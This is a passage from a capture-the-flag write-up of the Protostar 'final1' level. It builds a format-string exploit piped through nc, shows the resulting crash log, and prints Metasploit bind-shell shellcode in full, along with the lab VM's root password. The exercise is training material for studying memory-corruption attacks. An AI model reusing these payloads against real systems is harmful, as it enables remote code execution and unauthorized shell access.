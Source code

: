I started tinkering, and decided to try having it login a second time, repeating the "login" command: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%15\$n"."%16\$n"."%17\$n"."%18\$n"."\nlogin B\nlogin TEST2\n"' | nc localhost 2994
```

In the syslog, this showed: 

```
Feb  4 23:37:49 protostar final1: Login from 127.0.0.1:36773 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010] with password [B]
Feb  4 23:37:49 protostar kernel: [984582.054370] final1[24813]: segfault at 30303030 ip 30303030 sp bffff9fc error 4
```

There we go, we have a segfault, which should have dumped a core for us to debug.  This is convenient, since if the overwrite of "syslog()" doesn't happen until the second login attempt, we'll need to know where "TEST2" was in memory, to inject shellcode.  NOTE: To debug in gdb, you will have to use the root login.  Per http://exploit-exercises.com/protostar "For debugging the final levels, you can log in as root with password "godmode" (without the quotes)". 

This also made me remember, that since we are going to put shellcode in where "TEST2" is, the stack address will change, since the shellcode will probably be more than 5 characters long.  So this needs to be done again with a proper length shellcode.  That means the first step towards getting this, should be generating some shellcode.  I connected to a machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated some: 

```
mandreko@li225-134:~$ msfpayload linux/x86/shell_bind_tcp c
/*
* linux/x86/shell_bind_tcp - 78 bytes
* http://www.metasploit.com
* VERBOSE=false, LPORT=4444, RHOST=, PrependSetresuid=false,
* PrependSetreuid=false, PrependSetuid=false,
* PrependChrootBreak=false, AppendExit=false,
* InitialAutoRunScript=, AutoRunScript=
*/
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

I wired up a new string to send to the program, using the username of the exploit format string for the first username, and a "B" for the password.  The second login attempt would set the username to "X", as to not trigger the format string again, and a password containing a fake shellcode, of 78 "A"s. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%15\$n"."%16\$n"."%17\$n"."%18\$n"."\nlogin "."B"x120 ."username X\nlogin "."A"x78 ."\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```
